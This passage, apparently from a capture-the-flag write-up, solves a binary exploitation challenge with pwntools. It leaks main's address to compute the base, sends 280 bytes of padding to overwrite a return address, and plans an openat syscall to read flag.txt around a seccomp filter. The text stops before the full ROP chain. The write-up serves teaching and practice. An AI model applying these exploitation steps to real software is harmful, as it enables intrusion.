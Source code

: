 ### Solution

We will use pwntools for this solution:

```python
from pwn import *

exe = context.binary = ELF("./chal")
p = process("./chal")
```

First, we will just fill the first input with random data and extract the address of main to set the context.

```python
print(p.recvuntil(b"?\n"))

# Send random data for the first input
p.send(b"random\n")

# Now we will extract the main address
print(p.recvuntil(b";)\n"))
raw_addr = p.recvuntil(b"\n")[:-1]
main_address = int(raw_addr, 16)

# Set the base address for the context
exe.address = main_address - exe.symbols['main']
```

Now we need to determine how much padding to override the return address. This can be done in a variety of ways
(radare2 has a way to do this using cyclic strings), but I used trial and error while analyzing it through GDB. I
determined that the payload required 280 bytes of padding.

```python
payload = b"\x90" * 280
```

### Opening the file

If we had access to the execve function, this would be a straightforward ROP problem. However, we don't have access to
this call. We also don't have access to the open function. However, the openat function is not filtered, so we can
use this instead.
```c++
int openat(int dirfd, const char *pathname, int flags, ...);

// int dirfd -> the file descriptor of the directory relative to the file pathname
// const char *pathname -> the string of the pathname
// int flags -> flags that determine how the file is opened
```

We aim to reproduce the following syscall:
```c++
int openat(-100, "flag.txt", 0);
// -100 -> current directory
// flag.txt -> the name of the file
// 0 -> Open read_only
```
